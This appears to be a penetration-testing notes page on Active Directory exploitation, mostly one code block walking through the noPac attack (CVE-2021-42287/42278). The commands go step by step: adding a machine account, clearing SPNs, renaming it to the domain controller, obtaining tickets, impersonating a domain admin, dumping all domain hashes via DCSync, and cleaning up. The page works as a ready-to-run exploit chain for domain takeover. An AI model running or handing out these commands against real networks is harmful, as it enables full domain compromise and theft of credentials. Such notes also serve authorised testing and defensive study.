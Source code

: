 # Exploitation

* AD Delegation
* Forcing Authentication Relays
* Group Policy Objects
* Targeting AD Users
* Domain Trusts
* Silver and Golden Tickets

## Knowing Vulnerabilities

### SamAccountName (nopac) (CVE-2021-42287/CVE-2021-42278)

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.thehacker.recipes/a-d/movement/kerberos/samaccountname-spoofing
# Having user creds user:pwd on the domain, check if a host allows to add a computer
└─$ nxc smb sub.domain.local -u user -p password -M nopac
# If it says VULNERABLE, continue by creating a computer account
addcomputer.py -computer-name 'SomeName$' -computer-pass 'SomePassword' -dc-host "$DC_IP" -domain-netbios "$HOSTNAME" "$DOMAIN"/"$USER":"$PASSWORD"
# clear its SPNs ((with dirkjan krbrelayx tool addspn, not in Impacket)
addspn.py --clear -t 'ControlledComputer$' -u 'domain\user' -p 'password' 'DomainController.domain.local'
# TO USE renameMachine.py we need to prepare Impacket first https://mayfly277.github.io/posts/GOADv2-pwning-part5/#prepare-impacket
# Rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DC_HOSTNAME' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'
# Obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DC_HOSTNAME':'ComputerPassword'
# Reset the computer name back to its original name we set at the beginning
renameMachine.py -current-name 'DC_HOSTNAME' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'
# Obtain a service ticket with S4U2self by presenting the previous TGT (another option is -impersonate Administrator)
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -altservice 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController' -debug
# DCSync by presenting the service ticket
export KRB5CCNAME='DomainAdmin.ccache' 
secretsdump.py (-just-dc-user 'krbtgt') -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
# Finally we could clean up the computer account we added now that we have all the domain hashes ntds.dit
addcomputer.py -computer-name 'SomeName$' -delete -dc-host $DC_IP -domain-netbios $HOSTNAME -hashes 'NT:LM' 'domain.local/Administrator'
```
{% endcode %}
